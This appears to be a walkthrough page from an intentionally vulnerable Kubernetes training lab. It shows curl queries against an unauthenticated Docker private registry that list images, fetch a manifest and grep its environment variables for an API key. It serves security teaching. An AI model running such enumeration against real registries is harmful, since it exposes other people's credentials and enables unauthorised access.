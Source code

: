 ## 🎉 Solution & Walkthrough

### 🎲 Method

:::note

As this is an intentionally vulnerable design, we directly provided the endpoint. In the real world, you have to do some recon or even need to exploit the authenticated registries by a combination of other vulnerabilities chains.

:::

* Based on the scenario and information, we can identify that it's possible docker container private registry

* After reading some documentation and googling, here are the simple API endpoint queries for talking to the container registry

* To query the registry API v2 

```bash
curl http://127.0.0.1:1235/v2/
```

* The following endpoint is to query the catalog information, which returns all the details of images available in the container registry

```bash
curl http://127.0.0.1:1235/v2/_catalog
```

![Scenario 7 image catalog](./sc-7-2.png)

* We can get more information about the specific image using the image name with a tag with a manifest endpoint

```bash
curl http://127.0.0.1:1235/v2/madhuakula/k8s-goat-users-repo/manifests/latest
```

![Scenario 7 image info](./sc-7-3.png)

* Now we can see this container image has ENV variables that contain API key information, so we can quickly `grep` that out

```bash
curl http://127.0.0.1:1235/v2/madhuakula/k8s-goat-users-repo/manifests/latest | grep -i env 
```

![Scenario 7 api key info](./sc-7-4.png)

### Troubeshooting
Curl [service page]({{TRAFFIC_HOST1_1235}}) instead